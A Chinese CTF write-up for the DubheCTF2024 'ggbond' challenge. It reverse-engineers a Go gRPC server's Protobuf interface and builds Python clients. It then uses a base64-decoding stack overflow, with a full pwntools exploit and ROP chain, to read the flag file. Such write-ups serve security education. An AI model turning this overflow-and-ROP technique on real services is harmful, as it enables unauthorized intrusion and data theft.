

# gRPC&Go: XCTF联赛DubheCTF2024 - ggbond 详细题解-先知社区

> **来源**: https://xz.aliyun.com/news/16017  
> **文章ID**: 16017

---

## 题目分析

### 概况

附件里主要给了 docker 和 pow.py，附件的目录结构如下

```
├── docker
│   ├── bin
│   │   ├── ctf.xinetd
│   │   ├── flag
│   │   ├── pwn
│   │   └── start.sh
│   ├── Dockerfile
│   └── docker-compose.yml
└── pow.py
```

下面给出 pow.py 的代码分析

```
# 导入所需的库
import string
import itertools
import re
from pwn import *  # 用于网络连接和交互
from hashlib import sha256  # 用于计算SHA-256哈希值

# 目标服务器的IP地址和端口号
remote_ip = ''
remote_port = 1337

# 解决PoW挑战的函数
def pow():
    # 建立到远程服务器的连接
    p = remote(remote_ip, remote_port)
    # 接收挑战字符串，直到遇到' == '，并解码成字符串格式
    rev = p.recvuntil(b' == ').decode()
    # 使用正则表达式从接收到的挑战中提取所需的字符串部分
    pattern = r'xxxx\+([a-zA-Z0-9]+)'
    rev = re.search(pattern, rev).group(1)
    # 接收目标摘要值
    target_digest = p.recv(64).decode()

    # 定义字符集合，用于生成所有可能的4字符组合
    characters = string.ascii_letters + string.digits
    # 生成所有可能的4字符组合
    all_combinations = [''.join(comb) for comb in itertools.product(characters, repeat=4)]
    # 遍历所有组合，寻找满足条件的字符串
    for comb in all_combinations:
        proof = comb + rev  # 拼接字符串
        digest = sha256(proof.encode()).hexdigest()  # 计算SHA-256哈希值
        if target_digest == digest:  # 检查哈希值是否与目标摘要匹配
            result = comb  # 如果匹配，保存结果
            break
    # 将找到的解决方案发送给服务器
    p.send(result) 

    # 接收下一步的连接指令
    p.recvuntil(b' nc ')
    rev = p.recvline().decode()
    # 使用正则表达式提取目标IP地址和端口号
    pattern = r'(\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3})\s(\d+)'
    result = re.search(pattern, rev)
    target_ip = result.group(1)
    target_port = int(result.group(2))
    sleep(3)  # 等待3秒
    return target_ip, target_port  # 返回目标IP地址和端口号

# 调用函数并保存结果
target_ip, target_port = pow()

```

简单来说，`Proof of Work (PoW)` 是一种共识机制，它通过要求请求者完成一项计算工作来证明其请求的合法性。这段代码的主要作用是通过解决 `PoW` 来获取远程服务器指定的下一目标 IP 地址和端口号

在 `/docker/bin` 目录下有一个 `pwn` 文件，程序的保护机制如下

```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
FORTIFY:  Enabled

```

运行一下，分析程序功能，作为服务端，开放 23334 端口进行监听

```
$./pwn
2024/03/21 14:36:52 server listening at [::]:23334

```

放到 IDA 里分析，是一个 go 程序

```
469D80: using guessed type void __golang __noreturn start(char);

```

在 `.gopclntab` 段里存在以下字符串

```
aGoogleGolangOr_353 db 'google.golang.org/grpc/internal/transport.(*http2Server).WriteHeader
aGoogleGolangOr_55 db 'google.golang.org/protobuf/internal/encoding/json.init',0
```

至此可以判断出程序使用的开发框架是 `gRPC`，那我们的首要目标就是要分析如何与此类框架的程序进行交互

在 `gRPC` 框架下不再通过标准输入直接进行交互，其定义了 `gRPC` 服务接口，该接口使用 `Protobuf` 作为接口语言，所以首先需要先提取出程序中的 `Protobuf` 结构，然后将其转换回可替代的 `.proto`

### 前置知识补充

#### RPC

`RPC(Remote Procedure Call)` 是远程过程调用，允许一台计算机通过网络调用另一台计算机上的程序或函数，RPC 框架通常负责打包（序列化）请求参数，传输消息，在服务器端解包（反序列化）参数，执行远程过程，并将结果返回给客户端

#### gRPC

gRPC 是由 Google 开发的现代开源高性能 RPC 框架，支持多种编程语言。gRPC 默认使用 `Protocol Buffers(Protobuf)` 作为接口定义语言和其底层消息交换格式，提供了一种简洁高效的方式来定义服务和生成客户端和服务器代码

#### ProtoBuf

`ProtoBuf(Protocol Buffers)` 是 Google 开发的一种语言中立、平台中立、可扩展的序列化结构数据的方法，广泛用于通信协议和数据存储等多种场合

### pbtk 介绍

可以使用 `pbtk(Protobuf Toolkit)` 工具反编译和重新编译 Google ProtoBuf，项目链接如下

<https://github.com/marin-m/pbtk>

`pbtk(Protobuf Toolkit)` 是一套成熟的脚本，可通过统一的 GUI 访问，它提供两个主要功能

1. 从程序中提取 Protobuf 结构，将其转换回可替代的 `.proto`
2. 通过方便的图形界面编辑、重播和模糊发送到 Protobuf 网络端点的数据

工具安装

```
sudo apt install python3-pip git openjdk-9-jre libqt5x11extras5 python3-pyqt5.qtwebengine python3-pyqt5

$ sudo pip3 install protobuf pyqt5 pyqtwebengine requests websocket-client

$ git clone https://github.com/marin-m/pbtk
$ cd pbtk
$ ./gui.py

```

在 pbtk 工具中，选择 step1 后选择 `pwn` 文件，然后在 `.pbtk` 文件夹中会生成 `ggbond.proto`，`.proto` 文件是使用 Protobuf 定义数据结构的文本文件

源码及注释如下

```
// 指定使用Protobuf的第三版语法
syntax = "proto3";

// 定义了一个包名GGBond，这有助于防止命名冲突，并可能被用于生成的代码包路径等
package GGBond;

// 指定生成的Go代码的包路径和包名，这里指示protoc生成的Go代码位于"./"目录下，包名为ggbond
option go_package = "./;ggbond";

// 定义一个服务GGBondServer，它包含了一个RPC方法Handler
service GGBondServer {
    // Handler方法接受一个Request类型的请求，并返回一个Response类型的响应
    rpc Handler(Request) returns (Response);
}

// 定义一个Request消息，包含一个名为request的oneof字段，表示请求可以是以下类型之一
message Request {
    // oneof关键字表示request字段只能设置其一
    oneof request {
        WhoamiRequest whoami = 100;          // Whoami请求
        RoleChangeRequest role_change = 101; // 角色变更请求
        RepeaterRequest repeater = 102;      // 重复器请求
    }
}

// 定义一个Response消息，包含一个名为response的oneof字段，表示响应可以是以下类型之一
message Response {
    oneof response {
        WhoamiResponse whoami = 200;          // Whoami响应
        RoleChangeResponse role_change = 201; // 角色变更响应
        RepeaterResponse repeater = 202;      // 重复器响应
        ErrorResponse error = 444;            // 错误响应
    }
}

// 定义WhoamiRequest消息类型，用于Whoami请求，不包含任何字段
message WhoamiRequest {}

// 定义WhoamiResponse消息类型，包含一个message字段，类型为string
message WhoamiResponse {
    string message = 2000; // 响应消息
}

// 定义RoleChangeRequest消息类型，包含一个role字段，类型为uint32
message RoleChangeRequest {
    uint32 role = 1001; // 请求中指定的角色
}

// 定义RoleChangeResponse消息类型，包含一个message字段，类型为string
message RoleChangeResponse {
    string message = 2001; // 响应消息
}

// 定义RepeaterRequest消息类型，包含一个message字段，类型为string
message RepeaterRequest {
    string message = 1002; // 请求中包含的消息
}

// 定义RepeaterResponse消息类型，包含一个message字段，类型为string
message RepeaterResponse {
    string message = 2002; // 响应消息
}

// 定义ErrorResponse消息类型，用于错误响应，包含一个message字段，类型为string
message ErrorResponse {
    string message = 4444; // 错误消息
}

```

### grpc\_tools 介绍

重新编译 Google Protobuf，这里需要先安装 grpc\_tools（编译 `.proto` 文件的 gRPC 插件，Protobuf 编译器的 Python 版本），这样就得到了 `ggbond_pb2_grpc.py` 和 `ggbond_pb2.py`

```
pip install grpcio-tools
python3 -m grpc_tools.protoc -I. --python_out=. --grpc_python_out=. ggbond.proto

```

#### gbond\_pb2\_grpc.py 解析

`gbond_pb2_grpc.py` 中包含了 grpc 服务的代码，定义了服务和客户端类，这样就可以使用 python 应用程序实现和调用定义在 `.proto` 文件中的 grpc 服务，用于构建和部署 grpc 服务，可以在服务端实现这些类中定义的接口，并在客户端创建对应的存根来远程调用这些接口

```
# Generated by the gRPC Python protocol compiler plugin. DO NOT EDIT!
"""Client and server classes corresponding to protobuf-defined services."""
import grpc

import ggbond_pb2 as ggbond__pb2

#这个类是客户端存根，用于向gRPC服务发起调用
class GGBondServerStub(object):
    """Missing associated documentation comment in .proto file."""

    def __init__(self, channel):
        """Constructor.

        Args:
            channel: A grpc.Channel.
        """
        self.Handler = channel.unary_unary(
                '/GGBond.GGBondServer/Handler',
                request_serializer=ggbond__pb2.Request.SerializeToString,
                response_deserializer=ggbond__pb2.Response.FromString,
                )

#服务端的基类，用于实现.proto文件中定义的服务方法
class GGBondServerServicer(object):
    """Missing associated documentation comment in .proto file."""

    #服务端需要实现的业务逻辑
    def Handler(self, request, context):
        """Missing associated documentation comment in .proto file."""
        context.set_code(grpc.StatusCode.UNIMPLEMENTED)
        context.set_details('Method not implemented!')
        raise NotImplementedError('Method not implemented!')

#实现了GGBondServerServicer接口的服务添加到gRPC服务器
def add_GGBondServerServicer_to_server(servicer, server):
    rpc_method_handlers = {
            'Handler': grpc.unary_unary_rpc_method_handler(
                    servicer.Handler,
                    request_deserializer=ggbond__pb2.Request.FromString,
                    response_serializer=ggbond__pb2.Response.SerializeToString,
            ),
    }
    generic_handler = grpc.method_handlers_generic_handler(
            'GGBond.GGBondServer', rpc_method_handlers)
    server.add_generic_rpc_handlers((generic_handler,))

 #提供了一个静态方法，用于从客户端直接通过gRPC调用Handler服务方法
 # This class is part of an EXPERIMENTAL API.
class GGBondServer(object):
    """Missing associated documentation comment in .proto file."""

    @staticmethod
    def Handler(request,
            target,
            options=(),
            channel_credentials=None,
            call_credentials=None,
            insecure=False,
            compression=None,
            wait_for_ready=None,
            timeout=None,
            metadata=None):
        return grpc.experimental.unary_unary(request, target, '/GGBond.GGBondServer/Handler',
            ggbond__pb2.Request.SerializeToString,
            ggbond__pb2.Response.FromString,
            options, channel_credentials,
            insecure, call_credentials, compression, wait_for_ready, timeout, metadata)

```

#### ggbond\_pb2.py 解析

`ggbond_pb2.py` 中包含了 `.proto` 文件中定义的所有消息（Protobuf 消息）的 python 类，提供了消息的序列化和反序列化功能，以及对消息字段的访问方法，用于在 python 程序中使用 `.proto` 文件中定义的数据结构来存储数据、通信

```
# -*- coding: utf-8 -*-
# Generated by the protocol buffer compiler.  DO NOT EDIT!
# source: ggbond.proto
# Protobuf Python Version: 4.25.1
"""Generated protocol buffer code."""

#导入了几个用于处理Protobuf消息的Python模块,这些模块包含了用于创建和管理Protobuf描述符、符号数据库等的功能
from google.protobuf import descriptor as _descriptor
from google.protobuf import descriptor_pool as _descriptor_pool
from google.protobuf import symbol_database as _symbol_database
from google.protobuf.internal import builder as _builder
# @@protoc_insertion_point(imports)

#创建一个符号数据库实例，用于注册和查找生成的Protobuf消息和枚举类型
_sym_db = _symbol_database.Default()

#通过将Protobuf定义序列化为二进制形式添加到描述符池中来注册GGbond.proto文件中定义的所有消息和枚举类型,以便在运行时能够通过名称查找和使用这些类型
DESCRIPTOR = _descriptor_pool.Default().AddSerializedFile(b'\n\x0cggbond.proto\x12\x06GGBond\"\x9c\x01\n\x07Request\x12\'\n\x06whoami\x18\x64 \x01(\x0b\x32\x15.GGBond.WhoamiRequestH\x00\x12\x30\n\x0brole_change\x18\x65 \x01(\x0b\x32\x19.GGBond.RoleChangeRequestH\x00\x12+\n\x08repeater\x18\x66 \x01(\x0b\x32\x17.GGBond.RepeaterRequestH\x00\x42\t\n\x07request\"\xcd\x01\n\x08Response\x12)\n\x06whoami\x18\xc8\x01 \x01(\x0b\x32\x16.GGBond.WhoamiResponseH\x00\x12\x32\n\x0brole_change\x18\xc9\x01 \x01(\x0b\x32\x1a.GGBond.RoleChangeResponseH\x00\x12-\n\x08repeater\x18\xca\x01 \x01(\x0b\x32\x18.GGBond.RepeaterResponseH\x00\x12\'\n\x05\x65rror\x18\xbc\x03 \x01(\x0b\x32\x15.GGBond.ErrorResponseH\x00\x42\n\n\x08response\"\x0f\n\rWhoamiRequest\"\"\n\x0eWhoamiResponse\x12\x10\n\x07message\x18\xd0\x0f \x01(\t\"\"\n\x11RoleChangeRequest\x12\r\n\x04role\x18\xe9\x07 \x01(\r\"&\n\x12RoleChangeResponse\x12\x10\n\x07message\x18\xd1\x0f \x01(\t\"#\n\x0fRepeaterRequest\x12\x10\n\x07message\x18\xea\x07 \x01(\t\"$\n\x10RepeaterResponse\x12\x10\n\x07message\x18\xd2\x0f \x01(\t\"!\n\rErrorResponse\x12\x10\n\x07message\x18\xdc\" \x01(\t2<\n\x0cGGBondServer\x12,\n\x07Handler\x12\x0f.GGBond.Request\x1a\x10.GGBond.ResponseB\x0bZ\t./;ggbondb\x06proto3')

#使用DESCRIPTOR来生成Python中的消息类和枚举,这些函数负责创建对应于.proto文件中定义的消息类型的Python类
_globals = globals()
_builder.BuildMessageAndEnumDescriptors(DESCRIPTOR, _globals)
_builder.BuildTopDescriptorsAndMessages(DESCRIPTOR, 'ggbond_pb2', _globals)
if _descriptor._USE_C_DESCRIPTORS == False:
  _globals['DESCRIPTOR']._options = None
  _globals['DESCRIPTOR']._serialized_options = b'Z\t./;ggbond'
  _globals['_REQUEST']._serialized_start=25
  _globals['_REQUEST']._serialized_end=181
  _globals['_RESPONSE']._serialized_start=184
  _globals['_RESPONSE']._serialized_end=389
  _globals['_WHOAMIREQUEST']._serialized_start=391
  _globals['_WHOAMIREQUEST']._serialized_end=406
  _globals['_WHOAMIRESPONSE']._serialized_start=408
  _globals['_WHOAMIRESPONSE']._serialized_end=442
  _globals['_ROLECHANGEREQUEST']._serialized_start=444
  _globals['_ROLECHANGEREQUEST']._serialized_end=478
  _globals['_ROLECHANGERESPONSE']._serialized_start=480
  _globals['_ROLECHANGERESPONSE']._serialized_end=518
  _globals['_REPEATERREQUEST']._serialized_start=520
  _globals['_REPEATERREQUEST']._serialized_end=555
  _globals['_REPEATERRESPONSE']._serialized_start=557
  _globals['_REPEATERRESPONSE']._serialized_end=593
  _globals['_ERRORRESPONSE']._serialized_start=595
  _globals['_ERRORRESPONSE']._serialized_end=628
  _globals['_GGBONDSERVER']._serialized_start=630
  _globals['_GGBONDSERVER']._serialized_end=690
# @@protoc_insertion_point(module_scope)

```

## 交互样例

至目前为止，通信协议分析的工作基本完毕，开始尝试与服务器进行交互

Protobuf 中定义的 GGBondServer 的 rpc 服务里有三个 request 请求，用于测试的交互样例如下

### RepeaterRequest

测试脚本如下

```
import grpc
import ggbond_pb2
import ggbond_pb2_grpc

def run():
    with grpc.insecure_channel('localhost:23334') as channel:
        stub = ggbond_pb2_grpc.GGBondServerStub(channel)
        response = stub.Handler(ggbond_pb2.Request(repeater=ggbond_pb2.RepeaterRequest(message='world')))

        # --- 在此加入其他测试样例 ---

        # 检查响应类型并相应地访问字段
        if response.HasField('whoami'):
            print("Client received (WhoamiResponse): " + response.whoami.message)
        elif response.HasField('role_change'):
            print("Client received (RoleChangeResponse): " + response.role_change.message)
        elif response.HasField('repeater'):
            print("Client received (RepeaterResponse): " + response.repeater.message)
        elif response.HasField('error'):
            print("Client received (ErrorResponse): " + response.error.message)
        else:
            print("Client received an unknown type of response")

if __name__ == '__main__':
    run()

```

运行结果如下

```
$python3 run.py
Client received (RepeaterResponse): GGBOND: world

```

### WhoamiRequest

将下列代码插入上面给出的测试脚本里（详见注释）

```
# 发送 WhoamiRequest
whoami_request = ggbond_pb2.WhoamiRequest()
request = ggbond_pb2.Request(whoami=whoami_request)
response = stub.Handler(request)

```

运行结果如下

```
$python3 run.py   
Client received (WhoamiResponse): I'm GGBOND

```

### RoleChangeRequest

将下列代码插入上面给出的测试脚本里（详见注释）

```
role_change_request = ggbond_pb2.RoleChangeRequest(role=3)
request = ggbond_pb2.Request(role_change=role_change_request)
response = stub.Handler(request)

```

运行结果如下

```
$python3 run.py
Client received (RoleChangeResponse): New Role: SDaddy.

```

## 漏洞分析与利用

### Go 逆向

`changerole==3` 时 `RepeaterResponse` 将数据使用 base64 解码后存放到栈上，没有对长度做一个判断，导致栈溢出



溢出点在这段代码

```
for ( i = 0LL; i < (__int64)(3 * (len >> 2)); ++i )
{
  *(_BYTE *)v50 = *v51;
  v50 = (__int128 *)((char *)v50 + 1);
  ++v51;
}

```

写个用于交互的 exp 版本

```
from pwn import *
import grpc
import ggbond_pb2
import ggbond_pb2_grpc

context(arch='amd64', os='linux', log_level='debug')

file_name = './pwn'

li = lambda x : print('\x1b[01;38;5;214m' + str(x) + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + str(x) + '\x1b[0m')

context.terminal = ['tmux','splitw','-h']

debug = 0
if debug:
    r = remote('node4.buuoj.cn', 26870)
else:
    r = process(file_name)

elf = ELF(file_name)

def dbg():
    gdb.attach(r)

def get_response(response):
    if response.HasField('whoami'):
        print("Client received (WhoamiResponse): " + response.whoami.message)
    elif response.HasField('role_change'):
        print("Client received (RoleChangeResponse): " + response.role_change.message)
    elif response.HasField('repeater'):
        print("Client received (RepeaterResponse): " + response.repeater.message)
    elif response.HasField('error'):
        print("Client received (ErrorResponse): " + response.error.message)
    else:
        print("Client received an unknown type of response")

def RepeaterRequest(content):
    with grpc.insecure_channel('localhost:23334') as channel:
        stub = ggbond_pb2_grpc.GGBondServerStub(channel)
        response = stub.Handler(ggbond_pb2.Request(repeater=ggbond_pb2.RepeaterRequest(message=content)))
        get_response(response)

def WhoamiRequest():
    with grpc.insecure_channel('localhost:23334') as channel:
        stub = ggbond_pb2_grpc.GGBondServerStub(channel)
        whoami_request = ggbond_pb2.WhoamiRequest()
        request = ggbond_pb2.Request(whoami=whoami_request)
        response = stub.Handler(request)
        get_response(response)

def RoleChangeRequest(num):
    with grpc.insecure_channel('localhost:23334') as channel:
        stub = ggbond_pb2_grpc.GGBondServerStub(channel)
        role_change_request = ggbond_pb2.RoleChangeRequest(role=num)
        request = ggbond_pb2.Request(role_change=role_change_request)
        response = stub.Handler(request)
        get_response(response)

r.interactive()

```

### 对漏洞触发点进行调试

试试将 `role` 改成 3 后发送 0x100 个 a，触发段错误

```
pwndbg> c
Continuing.

Thread 4 "pwn" received signal SIGSEGV, Segmentation fault.

```

而发送 0x10 个 a 时

```
Client received (RepeaterResponse): SDaddy: YBYB, YBBB.
```

发送一长串 a 的 base64 编码，成功控制了返回地址

```
► 0x7ee053    ret    <0x6161616161616161>
```

查看 rsp 看看多了多少个 a 判断溢出需要的长度

```
pwndbg> x/20gx 0xc00016b6f0
0xc00016b6f0:   0x6161616161616161  0x6161616161616161
0xc00016b700:   0x6161616161616161  0x6161616161616161
0xc00016b710:   0x6161616161616161  0x6161616161616161
0xc00016b720:   0x6161616161616161  0x1010101010100000

```

```
pwndbg> p/x 0x100 - 0x38
$2 = 0xc8

```

### exp

最后的利用思路是使用 orw 将 flag 从 socket 的 fd 读出来

exp 运行到 `slepp(3)` 时另开终端 nc 到 23334 端口

```
$nc localhost 23334
@DubheCTF{fake_flag} a� J�@2� J��*� J��*�

```

完整 exp 如下

```
from pwn import *
from base64 import*
import grpc
import ggbond_pb2
import ggbond_pb2_grpc
import subprocess
import os

context(arch='amd64', os='linux', log_level='debug')

file_name = './pwn'

li = lambda x : print('\x1b[01;38;5;214m' + str(x) + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + str(x) + '\x1b[0m')

#context.terminal = ['tmux','splitw','-h']

debug = 0
if debug:
    r = remote('localhost', 23334)
else:
    r = process(file_name)

elf = ELF(file_name)

def dbg():
    gdb.attach(r)

def get_response(response):
    if response.HasField('whoami'):
        print("Client received (WhoamiResponse): " + response.whoami.message)
    elif response.HasField('role_change'):
        print("Client received (RoleChangeResponse): " + response.role_change.message)
    elif response.HasField('repeater'):
        print("Client received (RepeaterResponse): " + response.repeater.message)
    elif response.HasField('error'):
        print("Client received (ErrorResponse): " + response.error.message)
    else:
        print("Client received an unknown type of response")

def RepeaterRequest(content):
    with grpc.insecure_channel('localhost:23334') as channel:
        stub = ggbond_pb2_grpc.GGBondServerStub(channel)
        response = stub.Handler(ggbond_pb2.Request(repeater=ggbond_pb2.RepeaterRequest(message=content)))
        get_response(response)

def WhoamiRequest():
    with grpc.insecure_channel('localhost:23334') as channel:
        stub = ggbond_pb2_grpc.GGBondServerStub(channel)
        whoami_request = ggbond_pb2.WhoamiRequest()
        request = ggbond_pb2.Request(whoami=whoami_request)
        response = stub.Handler(request)
        get_response(response)

def RoleChangeRequest(num):
    with grpc.insecure_channel('localhost:23334') as channel:
        stub = ggbond_pb2_grpc.GGBondServerStub(channel)
        role_change_request = ggbond_pb2.RoleChangeRequest(role=num)
        request = ggbond_pb2.Request(role_change=role_change_request)
        response = stub.Handler(request)
        get_response(response)

tty = open("/dev/pts/1", 'wb', buffering=0)
process = subprocess.Popen(['nc', 'localhost', str(23334)], stdout=tty, stderr=tty)

RoleChangeRequest(3)

pop_rax_ret = 0x00000000004101e6
pop_rdi_ret = 0x0000000000401537
pop_rsi_ret = 0x0000000000422398
pop_rdx_ret = 0x0000000000461bd1
syscall = 0x000000000040452c
flag = 0x00000000007ef68d
addr = 0xC56400

p = b'a' * 0xc8
p += p64(pop_rax_ret) + p64(2) + p64(pop_rdi_ret) + p64(flag) + p64(pop_rsi_ret) + p64(0) + p64(pop_rdx_ret) + p64(0) + p64(syscall)
p += p64(pop_rax_ret) + p64(0) + p64(pop_rdi_ret) + p64(9) + p64(pop_rsi_ret) + p64(addr) + p64(pop_rdx_ret) + p64(0x100) + p64(syscall)
p += p64(pop_rax_ret) + p64(1) + p64(pop_rdi_ret) + p64(8) + p64(pop_rsi_ret) + p64(addr) + p64(pop_rdx_ret) + p64(0x100) + p64(syscall)

sleep(3)
RepeaterRequest(base64.b64encode(p))

r.interactive()

```
